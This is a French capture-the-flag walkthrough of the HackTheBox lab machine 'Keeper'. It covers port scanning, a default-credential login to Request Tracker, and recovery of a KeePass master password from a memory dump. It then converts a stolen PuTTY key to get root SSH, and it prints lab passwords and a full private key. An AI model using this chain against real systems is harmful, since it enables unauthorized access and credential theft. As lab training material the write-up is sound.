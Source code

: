 # HTB Keeper
IP : 10.10.11.227

Room facile (version hackthebox) =)

# Enum
## Nmap
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-10 07:44 EDT
Nmap scan report for 10.10.11.227
Host is up (0.046s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.92 seconds
```
Port 80 et port 22 ouvert.
Quand on va sur la page web, ca nous fait pointer vers http://tickets.keeper.htb/rt
On va donc modifier le fichier hosts
```
10.10.11.227	tickets.keeper.htb 
10.10.11.227	keeper.htb
```
## Basic research
On tombe sur une page login, rien dans les commentaires de la pages, ni ailleurs.
On trouve le logiciel derriere, il s'agit de "Best Practical Request Tracker 4.4.4"

Les creds par defaut :
```
root:password
```
Ca fonctionne, on a accès a la page d'administration !

On trouve un compte user: 
```
lnorgaard:Welcome2023!
```
# Get the shell ? Maybe ?!
Sur RT, on trouve un ticket concernant un base keepass mais notre chère Lise à bien supprimer la pièce jointe du ticket.

Le compte de lnorgaard permet une connexion SSH, donc, pas besoins de revshell.
Le flag ce trouve dans **/home/lnorgaard/user.txt**

# Go to the root !
On fait les petits tests classic, sudo -l etc. mais rien de probant.
On trouve l'archive RT30000.zip (La pièce jointe vu dans le ticket)

Je le récupère 
```
┌──(kali㉿kali)-[~/Challenge/HackTheBox/keeper]
└─$ scp lnorgaard@10.10.11.227:~/RT30000.zip .
lnorgaard@10.10.11.227's password: 
RT30000.zip                                                                                                                                               100%   83MB   2.4MB/s   00:34 
```
et je le désarchive.
```
┌──(kali㉿kali)-[~/Challenge/HackTheBox/keeper]
└─$ unzip RT30000.zip 
Archive:  RT30000.zip
replace KeePassDumpFull.dmp? [y]es, [n]o, [A]ll, [N]one, [r]ename: A
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx
```
Il contient le dump de Keepass et la base en .kdbx.

On passe le fichier .dmp via ce [script](https://github.com/vdohney/keepass-password-dumper/tree/main) afin de récupèrer le masterpass :
```
┌──(kali㉿kali)-[~/Challenge/HackTheBox/keeper/keepass_dump]
└─$ python3 keepass_dump.py -f /home/kali/Challenge/HackTheBox/keeper/KeePassDumpFull.dmp 
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
[*] 0:  {UNKNOWN}
[*] 2:  d
[*] 3:  g
[*] 4:  r
[*] 6:  d
[*] 7:   
[*] 8:  m
[*] 9:  e
[*] 10: d
[*] 11:  
[*] 12: f
[*] 13: l
[*] 15: d
[*] 16: e
[*] Extracted: {UNKNOWN}dgrd med flde
```
On ce retrouve avec **dgrd med flde** qui n'est pas le masterpass. 

Quand on tape cette suite de caractère sur google on tombe sur une recette d'un gateau danois : **Rødgrød Med Fløde**
Cela ne fonctionne pas non plus, en remplacant les **ø** par **o**, toujours pas. On essaye tout en minuscule :
```
rødgrød med fløde
```
Cela fonctionne !
On vois 2 entrées : 

Le compte de lnorgaard sur l'url ticket : http://tickets.keeper.htb
Le compte root pour PuTTy.
```
root:F4><3K0nd!
```
On test en SSH :
```
┌──(kali㉿kali)-[~]
└─$ ssh root@10.10.11.227                                               
root@10.10.11.227's password: 
Permission denied, please try again.
```
Le mot de passe ne fonctionne pas.
Dans les notes, on vois une clé ssh
```
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```
C'est une clé généré avec PuttY. Nous devont la modifier pour utiliser le client ssh de linux.
Il nous faut Puttygen :
```
sudo apt install putty-tools
```
Je vais donc l'enregistrer dans un fichier **.ppk** puis la modifier en **.pem** avec puttygen:
```
┌──(kali㉿kali)-[~/Challenge/HackTheBox/keeper]
└─$ puttygen keepass.ppk -O private-openssh -o keeper.pem
```
et nous voila connecter en root:
```
┌──(kali㉿kali)-[~/Challenge/HackTheBox/keeper]
└─$ ssh root@10.10.11.227 -i keeper.pem                  
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~#
```
le flag ce trouve dans **/root/root.txt**
